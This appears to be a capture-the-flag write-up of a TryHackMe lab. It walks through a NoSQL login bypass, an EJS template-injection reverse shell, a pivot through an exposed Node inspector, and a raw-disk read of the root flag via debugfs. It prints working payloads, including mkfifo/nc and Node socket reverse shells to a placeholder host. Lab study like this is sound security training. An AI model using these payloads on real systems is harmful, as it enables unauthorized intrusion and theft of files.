




## Overview

**Do Not Disturb** ([TryHackMe](https://tryhackme.com/room/hh-donotdisturb-84a45644)) is a Node/Express booking app for a pool venue called Byte Lotus. A NoSQL operator injection in the login form gets us into the staff console, and the EJS-templated booking-confirmation preview sitting right there turns out to be vulnerable to server-side template injection — enough for a reverse shell as `poolside`. From there, a sibling Node service on the box has its debug inspector sitting open on localhost; pivoting through the Chrome DevTools Protocol lands a second shell as `pipelinesvc`, whose group membership hands over raw access to the underlying block device — enough to read the root flag straight off disk without ever needing an actual root shell.

---

## Enumeration

```text
nmap -sV 10.113.139.161
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-05 16:39 UTC
Nmap scan report for 10.113.139.161
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports. 80 fingerprints as Express directly, no framework guessing needed. It's a login page for "Byte Lotus":



```bash
feroxbuster -u http://10.113.139.161 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
```

Content discovery didn't turn up anything past the login page itself, so the login form is the actual attack surface. Express doesn't imply a specific database, but Express + Mongo is common enough, and Mongo has a well-known failure mode when a route builds its query straight from `req.body` — worth checking before anything else.

---

## Initial Access

### NoSQL operator injection

Express's default body parser turns `password[$ne]=password` in a urlencoded body into `{ password: { $ne: "password" } }` rather than a literal string. If the login handler drops `req.body.password` into a Mongo filter without casting it to a string first, that becomes "password is not equal to the literal string `password`" — true for any account whose real password isn't literally `password`, so it matches the first document for whatever username you give it.

```http
POST /login HTTP/1.1
Host: 10.113.139.161
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

username=attendant&password[$ne]=password
```

```http
HTTP/1.1 302 Found
X-Powered-By: Express
Location: /staff
Set-Cookie: connect.sid=s%3A<SESSION_TOKEN>; Path=/; HttpOnly
```

`302` to `/staff` with a session cookie — bypassed.

> The `$ne`/`$gt`/`$regex` family of Mongo operators is the classic NoSQL auth-bypass trick, but it only works if the app never enforces that `password` is a string before it reaches the query. Any input validation or schema (Mongoose, Joi, whatever) that type-checks the body first kills this dead.
{: .prompt-tip }

### EJS SSTI in the booking-confirmation template

`/staff` is a "Cabana Desk" console, signed in as `attendant`, with a textarea for editing the guest booking-confirmation message:



The placeholder text spells out the templating engine for us — `(EJS — use <%= guest %> to personalise)` — and the field is rendered server-side and previewed back. User-controlled input landing inside an EJS template that then gets evaluated is the textbook setup for SSTI, so I swapped the guest placeholder for an arithmetic check:

```text
Dear <%= 7*7 %>, your Byte Lotus cabana is confirmed.
```

```text
Dear 49, your Byte Lotus cabana is confirmed.
```



Confirmed. Ran it through `tinja` afterward to validate and pin down the engine properly rather than just trusting the one payload:

```text
% ./tinja url -u 'http://10.113.139.161/staff/preview' -c 'connect.sid=s%3A<SESSION_TOKEN>' -d 'template=Dear+%3C%25%3D+guest+%25%3E%2C+your+Byte+Lotus+cabana+is+confirmed.'
TInjA v1.2.0 started at 2026-08-05_17-52-59

Analyzing URL(1/1): http://10.113.139.161/staff/preview
===============================================================
Status code 200
Analyzing post parameter  template  =>  Dear+%3C%25%3D+guest+%25%3E%2C+your+Byte+Lotus+cabana+is+confirmed.
[*] Value  63TP7S5LTZOQRNX7  of POST parameter  template  is being reflected 2 time(s) in the response body

A template injection was detected and the template engine is now being identified.

Verifying the template injection by issuing template expressions tailored to the specific template engine.
[*] Verifying EJS.
[*] The polyglot <%= 7*7 %> returned the response(s) [unmodified 49]
[+] EJS was identified (certainty: Very High)

===============================================================
[+] Suspected template injections: 1
[+] 1 Very High, 0 High, 0 Medium, 0 Low, 0 Very Low certainty
```

EJS, very high confidence.

### From SSTI to reverse shell

EJS has no sandbox by default — anything you can write inside `<%= %>` runs as regular JavaScript in the app's Node process. `global.process.mainModule.require` is the usual way to reach `require` from inside an EJS expression, since `require` itself isn't in scope there:

```text
Dear <%= global.process.mainModule.require("child_process").execSync("id").toString() %>, your Byte Lotus cabana is confirmed.
```

```text
Dear uid=996(poolside) gid=996(poolside) groups=996(poolside)
, your Byte Lotus cabana is confirmed.
```

Command execution confirmed, so straight to a reverse shell:

```bash
nc -lvnp 5555
```

```text
<%= global.process.mainModule.require("child_process").execSync("mkfifo /tmp/f; nc <x.x.x.x> 5555 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f").toString() %>
```

Landed as `poolside`. Stabilized with the usual pty trick:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```text
poolside@tryhackme-2404:~$ cat ~/user.txt
THM{...}
```

> **Flag 1**: `THM{...}`, read from `poolside`'s home directory after the SSTI reverse shell.
{: .prompt-info }

---

## Privilege Escalation

### A sibling service with its debugger left open

Poking around from the `poolside` shell turned up a second app living under a different service account:

```text
poolside@tryhackme-2404:/opt/pipelinesvc/telemetry$ ls
package.json  processor.js
poolside@tryhackme-2404:/opt/pipelinesvc/telemetry$ cat package.json
{
"name": "lotus-telemetry",
"version": "1.0.0",
"private": true,
"description": "Byte Lotus occupancy telemetry processor",
"main": "processor.js",
"scripts": { "start": "node processor.js" },
"dependencies": {}
}
```

A separate Node process, owned by whatever runs `pipelinesvc`. Nothing here says its debugger is exposed, but it turned out to be — the exploit URL below targets `127.0.0.1:9229`, which is Node's default inspector/debugger port when a process is started with `--inspect`. Bound to loopback only, so it's not reachable from outside, but we're already local via the `poolside` shell, and the inspector protocol itself (Chrome DevTools Protocol, CDP) doesn't ask for any authentication once you can reach it — it just lets you hand it JavaScript to run.

First attempt used a target id and a straightforward `mkfifo`+`nc` pipe, same shape as the SSTI shell:

```js
node -e '(async () => {
  const ws = new WebSocket("ws://127.0.0.1:9229/6aa40377-c7dc-4e31-bd85-baa15aed839a");
  ws.addEventListener("open", () => {
    ws.send(JSON.stringify({
      id: 1,
      method: "Runtime.evaluate",
      params: { expression: "require(\"child_process\").execSync(\"mkfifo /tmp/f; nc <x.x.x.x> 5556 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f\").toString()", includeCommandLineAPI: true }
    }));
  });
  ws.addEventListener("message", (e) => { console.log(e.data); process.exit(0); });
})()'
```

Followed up with a version that pulls the live debugger target from the inspector's own `/json` listing instead of a hardcoded id, and builds the reverse shell out of Node's own `net`/`child_process` modules rather than shelling out to `nc`:

```js
node -e '(async()=>{const t=await(await fetch("http://127.0.0.1:9229/json")).json();const ws=new WebSocket(t.find(x=>x.webSocketDebuggerUrl).webSocketDebuggerUrl);const expr="(function(){var n=process.mainModule.require(\"net\"),c=process.mainModule.require(\"child_process\"),s=c.spawn(\"/bin/bash\",[]),k=new n.Socket();k.connect(5556,\"<x.x.x.x>\",function(){k.pipe(s.stdin);s.stdout.pipe(k);s.stderr.pipe(k);});})()";ws.onopen=()=>ws.send(JSON.stringify({id:1,method:"Runtime.evaluate",params:{expression:expr}}));ws.onmessage=m=>console.log(m.data);})()'
```

```text
pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$ id
id
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

Second shell, as `pipelinesvc` this time. The interesting part isn't the shell itself — it's `groups=...,6(disk)`. Membership in `disk` means read access to the raw block device, which sidesteps normal file permissions entirely: you don't need to be root or have read access to a specific file if you can just read the filesystem's bytes directly off `/dev/`.

> A process's debug/inspector port doesn't need to be reachable from the internet to be a problem — "localhost only" just means the blast radius is anyone who can already get a foothold on the box, which is exactly the position an attacker is in by the time they're looking for privesc.
{: .prompt-tip }

### Raw disk read via debugfs

`debugfs` can read files straight off an ext filesystem image without going through the kernel's normal permission checks, provided you can read the block device itself — which `disk` group membership grants.

```text
pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$ debugfs -R 'cat /root/flag.txt'
cat: Filesystem not open
```

Syntax was right this time, but `debugfs` needs to be told which device to open — it doesn't default to `/`.

```text
pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$ findmnt -no SOURCE /
/dev/nvme0n1p1
```

```text
pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$ debugfs -R 'cat /root/root.txt' $(findmnt -no SOURCE /)
debugfs 1.47.0 (5-Feb-2023)
THM{...}
```

Pointed it at the actual root device from `findmnt`, and swapped the guessed `flag.txt` for `root.txt` once the filesystem was actually open — matches the earlier flag being `user.txt` rather than `flag.txt` in the home directory, in hindsight.

> **Flag 2**: `THM{...}`, pulled straight off the raw block device via `debugfs`. `pipelinesvc`'s `disk` group membership meant an actual root shell was never necessary.
{: .prompt-info }

---

## Conclusion

1. **NoSQL operator injection on `/login`** — the password field accepts a Mongo `$ne` operator through the urlencoded body, bypassing authentication for the `attendant` staff account.
2. **Unsandboxed EJS SSTI in the booking-confirmation preview** — the staff console renders arbitrary user-supplied EJS server-side, and EJS puts no restrictions on what a template expression can reach, so `require` via `global.process.mainModule.require` gets straight to `child_process` and a reverse shell as `poolside`.
3. **Node inspector left reachable on loopback** — a second service (`lotus-telemetry`, running as `pipelinesvc`) has its debugger listening on the default `9229` port. CDP's `Runtime.evaluate` accepts arbitrary JS with no auth once reachable, giving a second shell.
4. **`disk` group membership on `pipelinesvc`** — grants raw read access to the underlying block device, which `debugfs` uses to read `/root/root.txt` directly off the ext4 filesystem, no root shell required.



### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `feroxbuster` |
| NoSQL bypass | Burp Suite / raw HTTP requests |
| SSTI discovery & validation | Browser, `tinja` |
| Reverse shells | `nc`, Node one-liners (`node -e`) |
| Inspector pivot | Chrome DevTools Protocol (`Runtime.evaluate` over websocket) |
| Raw disk read | `debugfs`, `findmnt` |
